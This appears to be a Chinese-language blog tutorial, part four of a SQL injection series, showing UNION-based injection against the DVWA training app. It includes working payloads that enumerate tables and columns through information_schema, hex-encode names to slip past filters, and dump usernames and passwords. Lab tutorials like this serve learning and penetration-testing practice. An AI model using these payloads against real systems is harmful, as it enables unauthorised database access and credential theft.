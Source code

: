 ```yaml
---
layout: post
title: "SQL注入（四）"
category: SQL注入
tags: SQL注入 渗透测试
---
```


一天不更就觉得是对生命的浪费啊魂淡(,,･∀･)ﾉ゛

## 使用order by查询字段

`order by` 语句会对查询结果进行排列，可以借此判断列数。`+--+`可以对后面内容进行注释，便利构造语句


## 联合查询获取当前数据库、用户、版本信息

可以构造`union select`语句，来查询正在使用中的用户`user()`、数据库`database()`、数据库版本`version()`、服务器操作系统等信息`@@version_compile_os`，例如：

{% highlight sql %}
union select user(),database()+--+
{% endhighlight %}

## 查询数据库用户名和密码

前面提到过，在MySQL 5.0及以上版本，`information_schema`存储着所有数据库下的表名和列名信息。

### 查询表名

`information_schema.tables`为数据库名下表名`tables`记录所有数据库名下所有表名信息的表。

{% highlight sql %}
union select 1, group_concat(table_name) from information_schema.tables where table_schema=0x64767741+--+&Submit=Submit
{% endhighlight %}

这条语句表示联合查询满足数据库名为`information_schema`的库中的`tables`这个表，将其所有符合条件的字段，即属于`dvwa`库的表的信息都列出来

其中`0x64767741`为十六进制数，表示数据库名`dvwa`，在我们实际操作时，应当在查询到数据库名之后将其转换为十六进制数填入这个位置，可以借此绕过过滤检测。

### 查询列名

同理`information_schema.columns`是记录数据库下所有列名信息的表

若已知表名`users`，想要查询其下面的列名，则需要用以下语句：

{% highlight sql %}
union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273+--+&Submit=Submit
{% endhighlight %}

其中`0x7573657273`为`users`的十六进制形式

### 查询用户名密码

{% highlight sql %}
union select user,password from users+--+&Submit=Submit
{% endhighlight %}

其中users为上一步查到的表名
